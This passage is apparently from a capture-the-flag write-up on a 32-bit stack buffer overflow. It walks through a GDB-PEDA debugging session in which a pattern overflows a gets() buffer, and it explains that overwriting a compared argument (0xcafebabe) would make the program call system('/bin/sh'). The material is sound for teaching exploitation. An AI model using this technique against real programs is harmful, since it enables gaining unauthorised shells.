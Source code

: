 When the program reaches `0x5655564c`, it pushes the value of eax(`0xffffd3cc`) in to stack, then run `call   0xf7e3ddf0 <gets>`, which is the gets() function in C language. finally, `0xffffd3cc` will point to the strings entered by the user. Here we use PEDA command `pattern create 64` to create a 64 bytes test payload to make debugging easier.

```
gdb-peda$ pattern create 64
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH'
gdb-peda$ next
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH
[----------------------------------registers-----------------------------------]
EAX: 0xffffd3cc ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH")
EBX: 0x0
ECX: 0xf7f98580 --> 0xfbad2288
EDX: 0xf7f9985c --> 0x0
ESI: 0xf7f98000 --> 0x1bbd90
EDI: 0x0
EBP: 0xffffd3f8 ("AFAAbAA1AAGAAcAA2AAH")
ESP: 0xffffd3b0 --> 0xffffd3cc ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH")
EIP: 0x56555654 (<func+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x56555649 <func+29>:	lea    eax,[ebp-0x2c]
   0x5655564c <func+32>:	mov    DWORD PTR [esp],eax
   0x5655564f <func+35>:	call   0xf7e3ddf0 <gets>
=> 0x56555654 <func+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <func+47>:	jne    0x5655566b <func+63>
   0x5655565d <func+49>:	mov    DWORD PTR [esp],0x5655579b
   0x56555664 <func+56>:	call   0xf7e18060 <system>
   0x56555669 <func+61>:	jmp    0x56555677 <func+75>
[------------------------------------stack-------------------------------------]
0000| 0xffffd3b0 --> 0xffffd3cc ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH")
0004| 0xffffd3b4 --> 0xffffd454 --> 0xad54c02e
0008| 0xffffd3b8 --> 0x0
0012| 0xffffd3bc --> 0xd9f75100
0016| 0xffffd3c0 --> 0xffffffff
0020| 0xffffd3c4 --> 0xffffd668 ("/home/firmy/Documents/bof/bof")
0024| 0xffffd3c8 --> 0xf7de8ea0 --> 0x2bce
0028| 0xffffd3cc ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x56555654 in func ()
```

Now the statement `cmp    DWORD PTR [ebp+0x8],0xcafebabe` compares the value in `DWORD PTR [ebp+0x8]` and `0xcafebabe`. Recalling the address points to the user entered strings(`0xffffd3cc`), it is on the lower address, so if we enter a enough long strings, we can just cover the value in `0xffffd400`. If we made it, the program can not jump but run the statement `call   0xf7e18060 <system>`, it's parameter is `/bin/sh`.
```
gdb-peda$ hexdump 0x5655579b
0x5655579b : 2f 62 69 6e 2f 73 68 00 4e 61 68 2e 2e 00 00 00   /bin/sh.Nah.....
```
